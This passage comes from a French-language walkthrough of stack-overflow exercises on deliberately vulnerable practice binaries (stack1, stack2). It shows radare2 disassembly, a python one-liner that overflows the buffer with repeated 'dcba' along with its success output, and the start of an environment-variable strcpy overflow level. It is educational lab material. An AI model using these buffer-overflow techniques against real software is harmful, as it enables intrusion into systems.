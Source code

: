 ```nasm
0x080484be      jmp     0x80484d5
0x080484c0      mov     edx, dword [var_5ch]
0x080484c4      mov     eax, str.Try_again__you_got_0x_08x ; 0x80485f3
0x080484c9      mov     dword [src], edx
0x080484cd      mov     dword [esp], eax ; const char *format
0x080484d0      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x080484d5      leave
0x080484d6      ret
```

On voit `0x61626364` donc `dcba` en raison de [l'endianness](https://fr.wikipedia.org/wiki/Boutisme). C'est facile d'y parvenir :

```bash
$ $ ./stack1 `python -c 'print "dcba" * 18'`
you have correctly got the variable to the right value
```

## Level 2

La leçon ici est qu'on ne pourra pas parvenir à tout en utilisant seulement bash. Le programme ici copie le contenu d'une variable d'environnement vers un buffer sur la stack.

```nasm
int main (int argc, char **argv, char **envp);
; var const char *src @ esp+0x4
; var char *dest @ esp+0x18
; var int32_t var_58h @ esp+0x58
; var char *var_5ch @ esp+0x5c
0x08048494      push    ebp
0x08048495      mov     ebp, esp
0x08048497      and     esp, 0xfffffff0
0x0804849a      sub     esp, 0x60
0x0804849d      mov     dword [esp], str.GREENIE ; 0x80485e0 ; const char *name
0x080484a4      call    getenv     ; sym.imp.getenv ; char *getenv(const char *name)
0x080484a9      mov     dword [var_5ch], eax
0x080484ad      cmp     dword [var_5ch], 0
0x080484b2      jne     0x80484c8
0x080484b4      mov     dword [src], str.please_set_the_GREENIE_environment_variable ; 0x80485e8
0x080484bc      mov     dword [esp], 1 ; int eval
0x080484c3      call    errx       ; sym.imp.errx ; void errx(int eval)
0x080484c8      mov     dword [var_58h], 0
0x080484d0      mov     eax, dword [var_5ch]
0x080484d4      mov     dword [src], eax ; const char *src
0x080484d8      lea     eax, [dest]
0x080484dc      mov     dword [esp], eax ; char *dest
0x080484df      call    strcpy     ; sym.imp.strcpy ; char *strcpy(char *dest, const char *src)
0x080484e4      mov     eax, dword [var_58h]
0x080484e8      cmp     eax, 0xd0a0d0a
0x080484ed      jne     0x80484fd
0x080484ef      mov     dword [esp], str.you_have_correctly_modified_the_variable ; 0x8048618 ; const char *s
0x080484f6      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x080484fb      jmp     0x8048512
0x080484fd      mov     edx, dword [var_58h]
0x08048501      mov     eax, str.Try_again__you_got_0x_08x ; 0x8048641
0x08048506      mov     dword [src], edx
0x0804850a      mov     dword [esp], eax ; const char *format
0x0804850d      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x08048512      leave
0x08048513      ret
```
